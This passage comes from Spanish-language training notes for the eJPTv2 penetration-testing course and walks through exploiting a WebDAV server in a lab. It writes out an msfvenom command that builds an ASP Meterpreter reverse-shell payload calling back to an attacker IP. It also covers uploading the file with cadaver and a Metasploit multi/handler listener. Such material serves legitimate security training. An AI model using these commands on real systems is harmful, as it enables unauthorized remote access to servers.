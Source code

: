 ```bash
dir C:\
type C:\flag.txt
```

Ahora vamos a explotar WebDAV con **Metasploit**. Vamos a generar el payload con la herramienta  **msfvenom**. Utilizamos el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.49.5 LPORT=1234 -f asp > shell.asp
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2060.png)

A continuación, accedemos a webdav con **cadaver** y cargamos el fichero que acabamos de crear en el servidor.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2061.png)

Volvemos al navegador y recargamos para comprobar que se ha cargado correctamente.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2062.png)

Ahora, antes de ejecutar el fichero, abrimos **Metasploit** y utilizamos el siguiente módulo:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_Local>
set LPORT 1234 # El que especificamos en el fichero shell.asp
run
```
